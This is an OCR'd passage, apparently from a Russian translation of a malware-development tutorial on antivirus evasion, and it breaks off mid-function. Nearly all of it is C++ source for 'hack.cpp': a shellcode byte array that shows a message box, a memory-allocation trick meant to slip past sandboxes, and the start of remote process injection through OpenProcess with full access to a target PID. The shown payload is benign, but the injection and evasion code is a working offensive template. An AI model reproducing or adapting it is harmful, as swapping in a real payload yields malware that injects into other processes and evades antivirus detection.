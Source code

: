 Итак, давайте обновим наше простое вредоносное ПО:   

```cpp
/*
hack.cpp
classic payload injection example
allocate too much memory
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2021/12/21/simple-malware-av-evasion-3.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {

  // meow-meow messagebox x64 windows
  unsigned char my_payload[] =
    "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
    "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
    "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
    "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
    "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
    "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
    "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
    "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
    "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
    "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
    "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
    "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
    "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
    "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
    "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  DWORD pid; // process ID
  pid = atoi(argv[1]);

  // allocate and fill 100 MB of memory
  char *mem = NULL;
  mem = (char *) malloc(100000000);

  if (mem != NULL) {
    memset(mem, 00, 100000000);
    free(mem);

    // parse process ID
    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 
    DWORD(pid));
    printf("PID: %i", pid);

```